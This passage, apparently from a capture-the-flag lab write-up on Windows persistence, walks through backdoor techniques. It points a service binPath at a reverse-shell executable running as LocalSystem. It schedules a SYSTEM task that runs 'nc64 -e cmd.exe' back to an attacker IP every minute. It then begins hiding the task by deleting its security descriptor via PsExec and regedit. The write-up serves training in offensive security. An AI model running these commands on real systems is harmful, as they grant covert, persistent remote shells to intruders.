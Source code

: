 ```powershell
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396760872/1cd7630a-6652-4e28-b8ff-3c73b28c5055.png){: .center-image }

Check the service once more to confirm that the parameters have been correctly configured:

```powershell
sc.exe qc THMservice3
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396784286/f917e217-b054-46ab-b598-3a8dfb53cea3.png){: .center-image }

As previously, set up the Netcat listener to capture the shell:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396801970/1c7b02fc-15e4-4435-bd13-f88760c2a07f.png){: .center-image }

Grab `flag8.exe` from here.

### Abusing Scheduled Tasks

We can create a scheduled task that executes a reverse shell every minute. Keep in mind that we wouldn't want this to occur as frequently as one minute; however, for the sake of time, we will do it for this room.

```powershell
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "C:\tools\nc64 -e cmd.exe 10.13.28.215 1337" /ru SYSTEM
```

* `-sc` = schedule
    
* `-mo` = minute
    
* `-ru` = run
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396868503/0b611c63-0327-4b41-84c3-7276ba232356.png){: .center-image }

Let's verify that our task has been scheduled properly:

```powershell
schtasks /query /tn thm-taskbackdoor
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396892876/cbd51e4b-c304-4a4a-8ce5-c3a89c84a77a.png){: .center-image }

After scheduling the task to run every minute, we receive a callback from our listener:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396912495/b1df5b00-c16b-418c-a903-cb324c493cd5.png){: .center-image }

This is excellent, but it can be detected rather effortlessly. Let's conceal the task by removing its `Security Descriptor (SD)`. An `SD` is an `Access Control List (ACL)` that determines which users have access to the scheduled task. If a user isn't assigned to the `ACL`, they won't be able to view the task. We will need to use `PsExec` to modify the system registry and delete the `SD`.

```powershell
C:\tools\pstools\PsExec64.exe -s -i regedit
```
